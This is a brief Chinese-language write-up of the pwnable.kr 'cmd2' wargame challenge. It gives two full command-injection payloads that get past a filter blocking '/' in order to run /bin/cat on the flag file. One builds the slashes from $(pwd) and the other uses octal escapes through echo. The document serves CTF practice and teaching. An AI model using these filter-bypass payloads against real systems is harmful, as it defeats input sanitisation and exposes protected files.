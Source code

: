 # pwnkr cmd2
1. 要繞過更多限制，這次不能用 /，所以有兩種方法
2. 第一種用 pwd，到根目錄構造出 /bin/cat /home/cmd2/f*，所以就是 /home/cmd2/cmd2 '""$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)f*
3. 第二種方法是透過 sh 會把八進制轉碼，所以構造出 ./cmd2 '$(echo "\057\0142\0151\0156\057\0143\0141\0164\040\0146\0154\0141\0147")'，其中的八進制就是 /bin/cat flag 
